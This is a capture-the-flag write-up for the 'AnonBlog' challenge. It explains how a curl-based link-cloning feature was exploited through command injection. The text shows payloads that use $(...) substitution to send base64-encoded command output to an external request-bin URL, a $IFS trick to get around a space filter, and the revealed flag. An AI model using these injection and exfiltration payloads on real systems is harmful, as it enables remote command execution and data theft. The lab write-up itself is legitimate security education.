 # 0xrabin AnonBlog
```hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}```

Challenge Description
>There is a place Anonymous blog, people say you cannot share link there because it's their policy. They say sharing link leads to many security issues, though I think it's just opposite based on their specific context(their new feature)

http://nicehellonice-env.eba-p2umpa4t.us-east-1.elasticbeanstalk.com

It was a site where we can add posts through /post.
Cross Site Scripting was possible. At first I thought we use an xss payload to grab the cookie of the admin but it seemed like xss was just a rabbithole.

Checking the robots.txt of the site we find /features.txt that says
```
Newly added feature: Special Hyper Linking!
 - Automatically converts links into a hyperlink.
 - Try setting any URL in the Content, and see it!!
 NOTE: For some dumb reason, link-sharing was not allowed since day 1.
    But due to requests from the users we made it available for it. But
    you still cannot share links, so this application clones the URL
    locally (using curlY "ree--quest-TOR")*, then returns it to you
    from the application itself.
----------
*pronounced "curly requester"
```
So in my head I thought it as of
`curl https://site`
being executed whenever http/https word is used. So next step was to get code execution.

At first I tried common bypasses like `&&` `||` but since the output was not  being shown, I was not sure if the command was being executed.

So I thought of another approach to send command output to a url. I quickly setup a request bin url and crafted my payload using command substitution like

`http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)`
So what this will look like 

```sh
curl http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)
$(command|base64) get executed and base64 output would be appended to output =
curl http://requestbin.net/r/1bvgn5b1/?output=base64output
```

And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.

Now that we have command execution with proper output. It was time to find the flag. Actually  using space in command was blocked. So I had to use $IFS instead for every command that contains space.




For example: `$(ls -la)` became `$(ls$IFS-la)`.



I looked around and found a file named `zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt` which contained the flag.



Then I read the file using  `$(base64$IFS-w$IFS\0$IFS/zh*)`


```sh
Sidenote
There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.
```

On the request bin inspect tab I recieved

```Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K```

Decoding the base64 we get 


```
Congrats!! You made till the flag 🎉
Grab it, it's below:
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
```
```hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}```